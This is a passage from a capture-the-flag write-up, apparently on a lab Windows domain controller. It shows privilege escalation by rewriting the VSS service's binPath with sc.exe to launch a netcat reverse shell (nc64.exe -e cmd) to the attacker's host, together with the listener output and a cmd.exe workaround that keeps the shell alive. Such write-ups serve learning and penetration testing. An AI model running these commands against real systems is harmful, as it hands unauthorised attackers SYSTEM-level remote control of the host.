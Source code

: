 We will need to go blind on this one, and try targerting common services that might exist on a DC[^2], such as VSS[^8]. Let's set up a listener on our attack host first.

```bash
# setting up a listener
nc -lvp 1337
listening on [any] 1337 ...
```

Next, we will modify the VSS's path and restart the service.

{% code overflow="wrap" %}
```bash
# modifying the binPath of the VSS service
sc.exe config VSS binpath="c:\users\svc-printer\documents\nc64.exe -e cmd 10.10.14.52 1337"
# restarting the service
sc.exe stop VSS
sc.exe start VSS
```
{% endcode %}

Back to our listener.

```bash
# catching the reverse shell
nc -lvp 1337
listening on [any] 1337 ...
connect to [10.10.14.52] from printer [10.10.11.108] 54064
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

When the service fails to start, then it kills the running process. As a result, our shell will die after about 30 seconds because the service times out (Figure 9).

<figure><img src="../../.gitbook/assets/return_svc_fail.png" alt=""><figcaption><p>Figure 9: The VSS service fails after half a minute.</p></figcaption></figure>

This can be "fixed" by having `cmd.exe` initiating the `nc64.exe` binary.

{% code overflow="wrap" %}
```bash
# executing the nc64 binary via CMD
sc.exe config VSS binpath="C:\windows\system32\cmd.exe /c c:\users\svc-printer\documents\nc64.exe -e cmd 10.10.14.52 1337"
# starting the service
sc.exe start VSS
```
{% endcode %}



[^1]: Elevation of Privileges

[^2]: Domain Controller

[^3]: Windows Remote Management

[^4]: Internet Information Services

[^5]: Server Message Block

[^6]: Fully Qualified Domain Name

[^7]: Brute-Force Attack

[^8]: Volume Shadow Copy Service
